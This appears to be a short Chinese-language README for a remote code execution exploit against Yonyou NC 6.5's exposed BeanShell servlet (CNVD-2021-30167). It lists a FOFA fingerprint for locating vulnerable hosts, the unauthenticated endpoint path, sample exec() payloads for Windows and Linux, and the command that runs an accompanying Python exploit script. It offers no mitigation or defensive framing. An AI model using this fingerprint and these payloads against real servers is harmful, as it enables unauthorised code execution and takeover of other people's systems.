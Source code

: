 # 用友NC BeanShell远程代码执行

简介

    该漏洞是由于用友NC对外开放了BeanShell接口，攻击者可以在未授权的情况下直接访问该接口，并构造恶意数据执行任意代码并获取服务器权限。

编号

    CNVD-2021-30167

影响版本

    NC6.5

fofa指纹

    icon_hash="1085941792"

POC

    /servlet/~ic/bsh.servlet.BshServlet

    eg:
    exec("whomai")
    exec("cmd /c whoami")
    exec("/bin/sh whoami")

脚本使用

    python3 NC-beanshell-rce.py

注：该脚本中的命令执行, 仅适用于Windoes, Linux请手动测试。

